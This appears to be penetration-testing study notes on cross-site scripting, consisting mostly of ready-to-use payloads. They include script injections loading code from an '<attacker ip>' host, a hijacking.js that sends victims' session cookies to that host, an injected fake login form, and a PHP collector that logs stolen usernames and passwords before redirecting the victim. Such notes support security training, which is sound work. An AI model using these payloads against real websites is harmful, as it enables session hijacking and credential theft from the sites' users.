 Payload

https://www.youtube.com/watch?v=KHwVjzWei1c
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
<script>alert(window.origin)</script>
<script>alert(document.domain)</script>
<img src="" onerror="alert(window.origin)">
```

Session Hijacking

testing payload

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
// remote script
<script src="http://<attacker ip>"></script>
// note that html in the front
'><script src="http://<attacker ip>"></script>
"><script src="http://<attacker ip>"></script>
```

hijacking.js

```js
// enter a workable payload into the vulnerability input field
"><script src="http://<attacker ip>/hijacking.js"></script>
```

```js
// hijacking.js
// sudo python3 -m http.server 80
var oReq = new XMLHttpRequest();
oReq.open('GET', 'http://<attacker ip>/?output='+document.cookie, true);
oReq.send()

// hijacking.js
document.location='http://<attacker ip>/?output='+document.cookie;
// hijacking.js
new Image().src='http://<attacker ip>/?output='+document.cookie;
// and so on
```

using cookie to access 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/XSS/XSS_Login.png)

Phishing

```js
// confirm that the request can be sent out normally
document.write('<div><form id="form" action="http://<attacker ip>/phishing.php"><input type="text" id="username" name="username"><input type="password" id="pass" name="password"><button type="submit">Submit form</button></form></div>');
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("phishing.log", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://<target ip>/index.php");
    fclose($file);
    exit();
}
?>
```